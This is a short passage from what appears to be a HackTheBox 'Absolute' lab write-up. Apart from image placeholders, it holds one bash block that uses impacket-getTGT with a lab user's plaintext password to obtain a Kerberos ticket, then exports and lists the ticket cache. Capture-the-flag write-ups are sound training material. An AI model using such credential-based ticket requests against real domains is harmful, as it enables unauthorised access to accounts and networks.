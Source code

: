 



<figure><img src="../../../.gitbook/assets/4006_vmware_2blj3OH6f1.png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/imagen (226).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/imagen (227).png" alt=""><figcaption></figcaption></figure>



```bash
❯ impacket-getTGT absolute.htb/m.lovegod:'AbsoluteLDAP2022!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.lovegod.ccache
❯ export KRB5CCNAME=$(pwd)/m.lovegod.ccache
❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Absolute/Absolute/content/m.lovegod.ccache
Default principal: m.lovegod@ABSOLUTE.HTB

Valid starting     Expires            Service principal
22/01/25 05:08:17  22/01/25 09:08:17  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
	renew until 22/01/25 09:08:17, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 
```

